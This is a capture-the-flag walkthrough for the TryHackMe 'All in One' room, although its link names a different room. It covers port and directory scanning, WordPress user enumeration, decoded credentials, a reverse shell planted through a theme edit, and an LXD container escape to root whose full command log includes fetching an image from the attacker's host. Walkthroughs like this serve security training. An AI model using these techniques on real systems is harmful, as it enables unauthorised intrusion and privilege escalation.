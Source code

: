 ```yaml
---

title: Walkthrough - All in One
published: true
---
```


Security, i7md, wordpress, privesc, LXD. Fun bos where we get to exploit the system several ways

[https://tryhackme.com/room/yearoftherabbit](https://tryhackme.com/room/yearoftherabbit)

* * *

## Notes

- ``sudo nmap -Pn -sS -p- -T4 10.10.69.30 -vvv``

```
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 61
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61
```

- ``sudo nmap -sV -sT -sC -p21,22,80 10.10.69.30``

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.127.225
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:5c:33:22:76:5c:93:66:cd:96:9c:16:6a:b3:17:a4 (RSA)
|   256 1b:6a:36:e1:8e:b4:96:5e:c6:ef:0d:91:37:58:59:b6 (ECDSA)
|_  256 fb:fa:db:ea:4e:ed:20:2b:91:18:9d:58:a0:6a:50:ec (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- can login to ftp anonymously but upon doing so there doesnt seem to be much for us to discover.

- ``gobuster dir -u http://10.10.17.196/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php --no-error -t 100`` 

- we find ``/wordpress`` and ``/hackathons``

- hackathons we see a possible hint "Damn how much I hate the smell of ~~Vinegar~~ :/ !!!" note the vinegar in italics. and a couple comments 

```
<!-- Dvc W@iyur@123 -->
<!-- KeepGoing -->
```

- This is a Vigenere encryprion and cyber chef gives us "Try H@ckme@123"

- ``wpscan --url http://10.10.69.30/wordpress --``

- ``wpscan --url http://10.10.17.196/wordpress --enumerate u`` - we find username "elyana"

- ``[+] WordPress version 5.5.1 identified (Insecure, released on 2020-09-01).``

- can login with elyana:H@ckme@123

edit the main index template to start a revshell

* * * 

## What is the user flag?

- hint.txt in elyanas home dir gives us a hint that their password is stored somewhere hidden on the machine.
- ``find / -group elyana 2>/dev/null``

```
user: elyana
password: E@syR18ght
```

- we can then ssh in and ``cat user.txt`` which has a flag in base64

* * * 

## What is the root flag?

- we can use the lxc container to get root privileges. https://www.hackingarticles.in/lxd-privilege-escalation/

```
bash-4.4$ wget http://10.2.127.225/alpine-v3.13-x86_64-20210218_0139.tar.gz
--2022-08-05 04:39:42--  http://10.2.127.225/alpine-v3.13-x86_64-20210218_0139.tar.gz
Connecting to 10.2.127.225:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3259593 (3.1M) [application/gzip]
Saving to: ‘alpine-v3.13-x86_64-20210218_0139.tar.gz’

alpine-v3.13-x86_64 100%[===================>]   3.11M   800KB/s    in 5.1s    

2022-08-05 04:40:53 (627 KB/s) - ‘alpine-v3.13-x86_64-20210218_0139.tar.gz’ saved [3259593/3259593]

image4.4$ lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias my 
bash-4.4$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| myimage | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Aug 5, 2022 at 4:41am (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
bash-4.4$ lxc init myimage ignite -c security.privileged=true
Creating ignite
ursive=truexc config devive add ignite mydevice disk source=/ path=/mnt/root rec 
Description:
  Manage container and server configuration options

Usage:
  lxc config [command]

Available Commands:
  device      Manage container devices
  edit        Edit container or server configurations as YAML
  get         Get values for container or server configuration keys
  metadata    Manage container metadata files
  set         Set container or server configuration keys
  show        Show container or server configurations
  template    Manage container file templates
  trust       Manage trusted clients
  unset       Unset container or server configuration keys

Global Flags:
      --debug         Show all debug messages
      --force-local   Force using the local unix socket
  -h, --help          Print help
  -v, --verbose       Show all information messages
      --version       Print version number

Use "lxc config [command] --help" for more information about a command.
bash-4.4$ lxc init myimage ignite -c security.privileged=true
Creating ignite
Error: Container 'ignite' already exists
bash-4.4$ lxc start ignite
bash-4.4$ lxc ignite /bin/sh
Error: unknown command "ignite" for "lxc"
Run 'lxc --help' for usage.
bash-4.4$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # whoami
root
~ # cd /mnt/root
/bin/sh: cd: can't cd to /mnt/root: No such file or directory
~ # ls -las
total 12
     4 drwx------    2 root     root          4096 Aug  5 04:43 .
     4 drwxr-xr-x   19 root     root          4096 Aug  5 04:43 ..
     4 -rw-------    1 root     root            31 Aug  5 04:44 .ash_history
~ # cd /mnt/mnt/root
/bin/sh: cd: can't cd to /mnt/mnt/root: No such file or directory
~ # cd /
/ # ls
bin    etc    lib    mnt    proc   run    srv    tmp    var
dev    home   media  opt    root   sbin   sys    usr
/ # cd mnt/root/root
/bin/sh: cd: can't cd to mnt/root/root: No such file or directory
/ # cd mnt
/mnt # ls
/mnt # ls -las
total 8
     4 drwxr-xr-x    2 root     root          4096 Feb 18  2021 .
     4 drwxr-xr-x   19 root     root          4096 Aug  5 04:43 ..
/mnt # cd ..
/ # ls root
/ # cd root
~ # ls
~ # exit  
ursive=truexc config device add ignite mydevice disk source=/ path=/mnt/root recu
Device mydevice added to ignite
bash-4.4$ lxc start ignite
Error: Common start logic: The container is already running
bash-4.4$ lxc exec ignite /bin/sh
~ # cd /mnt/root/root
/mnt/root/root # ls
root.txt
/mnt/root/root # cat root.txt
VEhNe3VlbTJ3aWdidWVtMndpZ2I2OHNuMmoxb3NwaTg2OHNuMmoxb3NwaTh9
/mnt/root/root # 
```

* * * 

